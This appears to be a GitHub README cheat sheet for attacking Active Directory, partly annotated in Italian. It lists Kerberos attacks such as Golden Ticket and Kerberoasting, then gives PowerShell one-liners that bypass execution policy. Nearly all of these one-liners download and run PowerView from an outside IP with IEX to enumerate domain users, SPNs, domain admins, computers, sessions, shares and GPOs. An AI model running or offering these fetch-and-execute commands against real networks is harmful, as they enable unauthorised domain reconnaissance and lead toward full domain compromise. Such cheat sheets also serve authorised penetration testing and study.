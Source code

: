 # Active-Directory-Cheat-Sheet

## Summary
- Bypass Execution Policy

- Enumeration via PowerView

- Pass the Ticket
	- Access as a user to the domain required

- Kerberoasting
	- Access as any user required

- AS-REP Roasting
	- Access as any user required

- Golden Ticket
	- Full domain compromise (domain admin) required 

- Silver Ticket
	- Service hash required 

- Skeleton Key
	- Full domain compromise (domain admin) required

- Bruteforce with kerbrute

## Bypass Execution Policy
```
	- powershell -ep bypass -c "command"
	- powershell -c "command"
	- powershell -encodedcommand
	- $env:PSExecutionPolicyPreference="bypass"
	
```

## Enumeration via Powerview

### PowerView:
- Domain/USER Enumeration
```
	- hostname (vedo il mio name del computer nel dominio)
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-Domain"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainSID"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainPolicy"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser -SPN"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser -Properties samaccountname,memberof"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser -Properties samaccountname,description"
	- powershell -ep bypass -c "[System.Net.Dns]::GetHostAddresses('xor-app23')" (converte hostname in IP)
```

- Domain Controller
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetDomainController"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetDomainController -Domain [another domain]"
```

- GROUP Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroup -Name 'Domain Admins'"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-DomainGroup | where Name -like "*Admin*" | select SamAccountName "
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroupMember -Name 'Domain admins' "
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroup -Domain 'xor.com'"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroupMember -Identity "Domain admins" -Recurse | findstr MemberName"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroup -UserName 'HUA10157' | findstr cn"
```

- COMPUTER Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetComputer | select 	samaccountname, operatingsystem"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainComputer -Ping "
```

- Local Group in the machine 
```
	- hostname
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-NetLocalGroup -ComputerName PWVRTJS14.socrome.local"
```

- Logged on the computer 
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-NetLoggedon -ComputerName PWVRTJS14.socrome.local"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-LastLoggedOn -ComputerName PWVRTJS14.socrome.local"
```

- SHARED INFO Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Find-DomainShare -Verbose"
	- cd \\fileshare.pentesting.local\FileShare
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Invoke-ShareFinder -Verbose"
```

- GPO Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetGPO"
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetGPO -ComputerName PWVRTJS14.socrome.local"
	
```

- OU Enumeration
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainOU"
```

- ACL (Lista di ACE (corrisponde ad un unico permesso/accesso) Due tipi: DACL(Identifica gruppi/user che hanno o accesso al servizio) e SACL(Controlla gli accessi (EDR))
```
	- powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainOU"
```
